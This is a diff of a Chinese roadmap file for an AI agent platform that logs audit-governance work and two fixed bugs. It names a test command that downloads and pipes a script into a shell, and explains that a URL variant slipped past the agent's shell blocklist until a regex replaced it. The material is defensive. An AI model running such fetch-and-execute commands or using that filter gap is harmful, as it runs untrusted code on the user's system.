

Before and after one commit to Sexisnull/pobi_v2, a Markdown page: .ai/roadmap.md, the part around the change. Drawn GitHub-style.

Commit message:
docs(roadmap): 标记审计增强顺带修复的两个既有缺陷

```diff
--- a/.ai/roadmap.md
+++ b/.ai/roadmap.md
@@ -50,7 +50,7 @@
 ## 进行中
 - [x] **Agent 治理：可观测与审计增强 P0+P1（2026-09-07 完成）**：补全登录/目标变更/审批决策/护栏越权拦截审计覆盖；`actor` 强制真实责任人；Agent 高风险动作（高危工具闸门的创建/自动批准/人工决策、子 Agent 委派、越权拦截）逐条入审计 + 任务完成追加 `agent.run_summary` 汇总；`audit_events.tenant_id` 改 `SET NULL`；新增 `trace_id`/`span_id` 打通 OTel 关联；行级哈希链（`prev_hash`/`hash` + `verify_audit_chain`）+ PG append-only 触发器；迁移 `0021_audit_governance`；`tests/test_audit.py` 7 项通过。
   - **遗留（P2，未做）**：Prometheus `/metrics` 与成本看板、指标时序化（`task_metrics_agg` 现为按 target upsert 最新值）、统一脱敏层（prompt/tool_args/event payload）、Agent 健康端点与失败告警。
-  - **已知既有缺陷（非本次引入，未修）**：`engine/executor.py` 多处 `return {"task_id": task_id, ...}` 引用了不存在的 `task_id`（函数参数为 `tid`），命中该分支会抛 `NameError`；`tests/test_engine_tools.py::test_unsafe_shell_blocked[curl https://x.sh | sh]` 失败（`_is_safe_shell` 黑名单为精确子串 `curl | sh`，带 URL 的形式未被拦）。
+  - **顺带修复的既有缺陷（2026-09-07 随审计增强提交后单独修复）**：`engine/executor.py` 取消/越权/超时等返回分支引用不存在的 `task_id`（应为 `tid`），命中即 `NameError`；`_is_safe_shell` 黑名单用精确子串 `curl | sh`，`curl <url> | sh` 变体可绕过，改为正则拦截「管道喂给解释器」。全量测试 119 passed / 1 skipped。
 - [ ] **自定义工具添加（下一步）**：在当前工具体系（`pobi_agent/tools/`，含 `tool_wrappers.py` 审批包裹、`models/registry.py` 注册、`context_engine.py`/`architecture.py` 接入点）上，支持用户自定义工具注入到 Agent 工具集。路线草案（待细化）：
   - T1 明确自定义工具的来源形态：用户提供脚本（Python 函数 / CLI 包装）还是配置声明（name + 描述 + 参数 schema + 执行入口）。
   - T2 设计注册入口：扩展 `models/registry.py` 或新增 `custom_tools` 注册表，支持运行时挂载而不改内核代码。
```
